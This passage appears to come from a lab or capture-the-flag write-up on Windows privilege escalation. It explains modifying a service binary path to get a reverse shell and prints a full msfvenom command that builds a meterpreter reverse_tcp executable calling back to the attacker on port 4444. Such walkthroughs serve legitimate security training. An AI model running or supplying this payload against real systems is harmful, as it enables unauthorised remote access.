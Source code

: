 ![net users](docs/show%20net%20user%207.png)

More information about this is that members of this group can start and stop services. With that in mind we will modify a service binary path to obtain a reverse shell.

The best and `stable` way is to use `msfvenom`. We will use this to generate a `meterpreter reverse shell executable payload` for the remote host.

- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe > shell-x86.exe`

Using `tun0` will set your ip automatically.

![msfvenom](docs/msfvenom%208.png)
